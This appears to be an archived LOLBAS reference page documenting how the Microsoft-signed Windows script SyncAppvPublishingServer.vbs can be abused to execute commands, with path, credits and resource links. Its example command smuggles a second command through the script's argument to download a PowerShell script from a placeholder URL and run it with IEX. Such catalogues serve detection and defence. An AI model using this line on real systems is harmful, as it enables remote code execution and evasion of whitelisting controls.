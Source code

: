 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## SyncAppvPublishingServer.vbs

* Functions: Execute

```
SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
```

Acknowledgements:
* Nick Landers - @monoxgas
* Casey Smith - @subTee

Code sample:

Resources:
* https://twitter.com/monoxgas/status/895045566090010624
* https://twitter.com/subTee/status/855738126882316288

Full path:
```
C:\Windows\System32\SyncAppvPublishingServer.vbs
```

Notes:
Just like [SyncAppvPublishingServer.exe](OSBinaries/Syncappvpublishingserver.md) this starts a Powershell script with the provided arguments.

Included with Windows 10 Enterprise. Script is catalog signed by Microsoft.
 
